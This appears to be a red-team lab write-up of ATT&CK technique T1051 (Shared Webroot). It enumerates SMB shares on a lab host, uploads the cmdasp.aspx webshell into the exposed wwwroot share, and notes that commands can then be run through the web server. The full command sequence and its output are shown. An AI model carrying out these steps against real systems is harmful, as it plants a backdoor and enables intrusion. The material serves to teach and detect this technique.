


# T1051: Shared Webroot

## Execution

Enumerating victim host `10.0.0.6` for any shares:


```csharp
smbclient -L //10.0.0.6 -U spot

WARNING: The "syslog" option is deprecated
Enter WORKGROUP\spot's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	CertEnroll      Disk      Active Directory Certificate Services share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
	temp            Disk      
	tools           Disk      
	transcripts     Disk      
	wwwroot         Disk      
```


Logging in to the `wwwroot` share:


```csharp
smbclient //10.0.0.6/wwwroot -U spot

WARNING: The "syslog" option is deprecated
Enter WORKGROUP\spot's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Aug 25 16:57:52 2018
  ..                                  D        0  Sat Aug 25 16:57:52 2018
  aspnet_client                       D        0  Tue Jul 31 20:11:20 2018
  iis-85.png                          A    99710  Tue Jul 31 19:35:48 2018
  iisstart.htm                        A        3  Tue Jul 31 19:38:23 2018
```


Uploading a webshell into the `wwwroot`:

```csharp
put /usr/share/webshells/aspx/cmdasp.aspx c.aspx

putting file /usr/share/webshells/aspx/cmdasp.aspx as \c.aspx (341.8 kb/s) (average 341.8 kb/s)
smb: \> ls
  .                                   D        0  Sat Aug 25 16:59:47 2018
  ..                                  D        0  Sat Aug 25 16:59:47 2018
  aspnet_client                       D        0  Tue Jul 31 20:11:20 2018
  c.aspx                              A     1400  Sat Aug 25 16:59:47 2018
  iis-85.png                          A    99710  Tue Jul 31 19:35:48 2018
  iisstart.htm                        A        3  Tue Jul 31 19:38:23 2018

		6463487 blocks of size 4096. 3032260 blocks available
```

Same as above in a picture:



Attacker can now access the newly uploaded webshell via `http://10.0.0.6/c.aspx` and start executing commands:



## Observations

See T1108: Webshells for observations:



## References



